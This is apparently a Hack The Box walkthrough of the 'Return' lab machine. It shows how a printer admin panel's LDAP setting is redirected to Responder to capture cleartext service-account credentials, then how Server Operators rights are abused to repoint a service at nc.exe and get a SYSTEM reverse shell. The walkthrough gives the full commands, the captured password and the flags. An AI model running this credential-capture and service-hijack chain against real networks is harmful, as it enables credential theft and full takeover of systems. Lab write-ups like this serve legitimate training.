





> [!info] Machine Info
> - **Target:** `10.129.95.241` (`PRINTER.return.local`)
> - **Domain:** `return.local`
> - **Difficulty:** Easy
> - **OS:** Windows 10 / Server 2019

## Synopsis

Return is a fun one because the vulnerability isn't in a service at all; it's in a physical-device admin panel that happens to be exposed over HTTP. A network printer's web config page lets me redirect its LDAP authentication target anywhere I want. Point it at my own box running Responder, and the printer hands over its service account's credentials in cleartext. From there it's a normal WinRM foothold, but the account turns out to be a member of `Server Operators`, a group that can reconfigure and restart any Windows service, including ones that already run as SYSTEM. Repointing a service's binary at `nc.exe` gets a SYSTEM shell in about three tries (after fixing a typo in my own path).

---

## 1. Recon

```bash
export target=10.129.95.241
nmap -p- $target -v --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 -oN nmap_ports.txt \
  && sleep 5 && sudo nmap -sC -sV -oN nmap_sC_SV $target
```

```
PORT      STATE SERVICE
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: HTB Printer Admin Panel
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http
636/tcp   open  tcpwrapped
3268/tcp  open  ldap
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows
```

A Domain Controller again (`return.local`, hostname `PRINTER`), but this time with port 80 open and an interesting title: **"HTB Printer Admin Panel"**. That's not a normal DC service, worth checking before diving into AD enumeration. I also confirmed my tunnel interface so I'd have the right IP ready for later:

```bash
ip a
```
```
9: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> ...
    inet 10.10.14.18/23 brd 10.10.15.255 scope global tun0
```

---

## 2. Resolving the Domain

```bash
sudo netexec smb $target --generate-hosts-file hosts
sudo cat hosts /etc/hosts | sudo sponge /etc/hosts
head -1 /etc/hosts
```

```
SMB  10.129.95.241  445  PRINTER  [*] Windows 10 / Server 2019 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:None) (Null Auth:True)
10.129.95.241     PRINTER.return.local return.local PRINTER
```

NetExec's `--generate-hosts-file` grabbed the hostname straight from the SMB banner and I merged it into `/etc/hosts` in one shot. A couple of blind credential guesses against the obvious `svc-printer` account came back empty:

```bash
netexec smb $target -u svc-printer -p svc-printer
netexec ldap $target -u svc-printer -p svc-printer
```
```
SMB  10.129.95.241  445  PRINTER  [-] return.local\svc-printer:svc-printer STATUS_LOGON_FAILURE
```

No surprise, time to actually look at the web panel.

---

## 3. The Printer Admin Panel

Browsing to `http://10.129.95.241` shows exactly what the Nmap title said: a fake enterprise printer admin panel (the kind you'd see on a Canon/Xerox/Epson MFP). Under **Settings**, it shows the printer's LDAP configuration:




```
Server Address : printer.return.local
Server Port    : 389
Username       : svc-printer
Password       : *******
```

Devices like this authenticate to LDAP (and often SMB) using a stored service account, so they can pull the user directory and save scanned documents to network drives. Critically, the **Server Address** field is editable, meaning I can tell this device to authenticate to *my own machine* instead of the real DC.

I briefly poked at a downloaded panel image out of habit, just checking for anything embedded:

```bash
strings 1.png
```

Nothing useful, just PNG-internal compressed data. Not every rabbit hole pays off; back to the actual plan.

---

## 4. Capturing Credentials with Responder

Rather than standing up a bare netcat listener on 389 and hoping the printer speaks something readable, I used Responder: it understands LDAP simple-bind well enough to log the credentials cleanly, and it's already listening on every protocol a Windows-flavored client might try:

```bash
sudo responder -I tun0
```

With Responder running, I edited the printer's **Settings** page and set **Server Address** to my `tun0` IP (`10.10.14.18`), then hit **Update** to trigger the device to "re-authenticate" against its LDAP server, which is now me.




```
[+] Listening for events...

[LDAP] Cleartext Client   : 10.129.95.241
[LDAP] Cleartext Username : return\svc-printer
[LDAP] Cleartext Password : 1edFg43012!!
```

The printer dutifully bound to my fake LDAP server with its real credentials in the clear:

```
return\svc-printer : 1edFg43012!!
```

Confirmed immediately:

```bash
netexec smb $target -u svc-printer -p '1edFg43012!!' --users
```

```
SMB  10.129.95.241  445  PRINTER  [+] return.local\svc-printer:1edFg43012!!
SMB  10.129.95.241  445  PRINTER  -Username-      -Last PW Set-        -BadPW-  -Description-
SMB  10.129.95.241  445  PRINTER  Administrator   2021-07-16 15:03:22  0        Built-in account for administering the computer/domain
SMB  10.129.95.241  445  PRINTER  Guest           <never>              0        Built-in account for guest access to the computer/domain
SMB  10.129.95.241  445  PRINTER  krbtgt          2021-05-20 13:26:54  0        Key Distribution Center Service Account
SMB  10.129.95.241  445  PRINTER  svc-printer     2021-05-26 08:15:13  0        Service Account for Printer
SMB  10.129.95.241  445  PRINTER  [*] Enumerated 4 local users: RETURN
```

I also kicked off a BloodHound collection for later, out of habit, to have the full domain graph on hand:

```bash
netexec ldap $target -u svc-printer -p '1edFg43012!!' --bloodhound --collection All --dns-server $target
```

---

## 5. Foothold - WinRM as svc-printer

```bash
evil-winrm -i $target -u svc-printer -p '1edFg43012!!'
```

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> type ../Desktop/user.txt
b8841dfc95a4c120f328ee5878cd012b
```

User flag secured. Next, the usual privilege check:

```powershell
whoami /all
```

```
GROUP INFORMATION
-----------------
Group Name                                 Type             SID
========================================== ================ ============
BUILTIN\Server Operators                   Alias            S-1-5-32-549
BUILTIN\Print Operators                    Alias            S-1-5-32-550
BUILTIN\Remote Management Users            Alias            S-1-5-32-580
```

Or With Bloodhound :




`Server Operators` is the interesting one, a built-in privileged group that grants its members the ability to start, stop, and reconfigure Windows services, including changing a service's binary path. That's effectively arbitrary code execution as whatever account the service runs under, often `LocalSystem`.

I used Evil-WinRM's `services` alias to see what's actually running and get a feel for which service to hijack:

```powershell
services
```

```
Path                                                                    Privileges Service
----                                                                    ---------- -------
C:\Windows\ADWS\Microsoft.ActiveDirectory.WebServices.exe                    True ADWS
...
"C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"                          True VMTools
"C:\ProgramData\Microsoft\Windows Defender\platform\...\MsMpEng.exe"         True WinDefend
"C:\Program Files\Windows Media Player\wmpnetwk.exe"                        False WMPNetworkSvc
```

`VMTools` (VMware Tools) stood out as a safe, non-critical service to repurpose; modifying core security services like `WinDefend` risks breaking the box or triggering alerts, whereas VMware Tools is disposable in a VM lab environment.

---

## 6. Privilege Escalation - Hijacking the VMTools Service Binary


Reading this article : https://www.hackingarticles.in/windows-privilege-escalation-server-operator-group/  




First, upload a Windows netcat binary to use as the payload:

```powershell
upload /usr/share/windows-binaries/nc.exe
```
```
Info: Uploading /usr/share/windows-binaries/nc.exe to C:\Users\svc-printer\Documents\nc.exe
Data: 79188 bytes of 79188 bytes copied
Info: Upload successful!
```

My first attempt at repointing the service had a typo; I referenced a path for a different (nonexistent) user account instead of my own:

```powershell
sc.exe config VMTools binPath="C:\Users\aarti\Documents\nc.exe -e cmd.exe 10.10.14.18 4444"
```
```
[SC] ChangeServiceConfig SUCCESS
```

`sc.exe` happily accepted the config change; it doesn't validate the path exists until you actually try to start the service:

```powershell
sc.exe stop VMTools
```
```
STATE : 1  STOPPED
```

```powershell
sc.exe start VMTools
```
```
[SC] StartService FAILED 2:
The system cannot find the file specified.
```

Right, `C:\Users\aarti\...` doesn't exist on this box; I'd copy-pasted from muscle memory rather than checking my actual upload path. Fixed it to point at the real location:

```powershell
sc.exe config VMTools binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd.exe 10.10.14.18 4444"
```
```
[SC] ChangeServiceConfig SUCCESS
```

```powershell
sc.exe stop VMTools
```
```
[SC] ControlService FAILED 1062:
The service has not been started.
```

That's fine, it just means the earlier `stop` attempt had already left it stopped. I went straight to starting it, with my netcat listener already running locally:

```bash
nc -lvnp 4444
```

```powershell
sc.exe start VMTools
```
```
[SC] StartService FAILED 1053:
The service did not respond to the start or control request in a timely fashion.
```

This "failure" is actually expected and harmless here: the Service Control Manager expects a service to report `SERVICE_RUNNING` back within a timeout window, but `nc.exe` has no idea it's supposed to behave like a Windows service and never sends that acknowledgment. SCM gives up and reports error 1053, **but by that point `nc.exe` has already executed** and spawned `cmd.exe` back to my listener. The "failure" message can be safely ignored.

```
listening on [any] 4444 ...
connect to [10.10.14.18] from (UNKNOWN) [10.129.95.241] 60268
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

A SYSTEM shell, exactly as expected: `VMTools` was configured to run as `LocalSystem`, so anything I point its binary path at inherits that same context.

---

## 7. Grabbing Root

My first attempt at reading the flag got cut off (I hit Ctrl+C too early after typing the wrong drive-relative path):

```
C:\Windows\system32>type C:\Users\administrator\Desktop\root.txt
^C
```

Restarted the listener, triggered the service again the same way, and tried again with the correct casing/path:

```
C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt
83834b4e0840b459e9547d3480542a91
```

Full domain compromise.

---

#ActiveDirectory #HackTheBox #Responder #LLMNRPoisoning #ServiceAbuse #ServerOperators #WinRM #EvilWinRM #Easy #Writeup
